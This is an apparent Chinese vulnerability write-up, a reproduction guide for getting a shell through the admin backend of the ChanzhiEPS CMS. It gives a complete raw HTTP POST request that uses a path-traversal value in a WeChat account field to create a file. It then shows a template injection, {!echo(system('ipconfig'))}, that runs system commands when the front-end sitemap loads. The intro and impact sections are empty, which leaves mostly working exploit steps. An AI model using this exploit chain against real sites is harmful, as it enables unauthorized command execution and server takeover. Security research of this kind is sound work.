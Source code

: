 # 禅知 后台getshell

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

后台存在模板编辑，但是如果保存的话需要创建一个/system\tmp\xjrg.txt文件，那么我们找到一个可以创建任意文件的地方就

![](images/15897248244285.png)


在/system/module/wechat/model.php

![](images/15897248319743.png)


$qrcodeFile未过滤目录穿越导致可以去其他地方创建文件夹通过微信设置原始ID的地方写入穿越的文件路径

![](images/15897248401939.png)



```bash
POST /chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1 HTTP/1.1
Host: baidu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost/chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1
Content-Length: 120
Cookie: adminsid=ae8tu3s80j8cfvh2hkgu41bbig; adminLang=zh-cn; adminDevice=desktop; theme=default; currentGroup=setting; frontsid=eaa0tdicbqfq0lurm89t3n9fvn; frontLang=zh-cn; frontDevice=desktop
X-Forwarded-For: 8.8.8.8
Connection: close

type=subscribe&name=123&account=..%2F..%2F..%2Fsystem%5Ctmp%5Cxjrg.txt%5C1&appID=789&appSecret=100&token=222&certified=0
```

点一下二维码，再随便传一张图片，可以看到创建了一个xjrg.txt文件夹

![](images/15897248612415.png)


现在我们再去编辑模板，{!echo(system('ipconfig'))},可以直接写入一句话

![](images/15897248683317.png)


然后在访问前台


```
http:/baidu.com/chanzhieps/www/index.php/sitemap/
```

![](images/15897248854770.png)
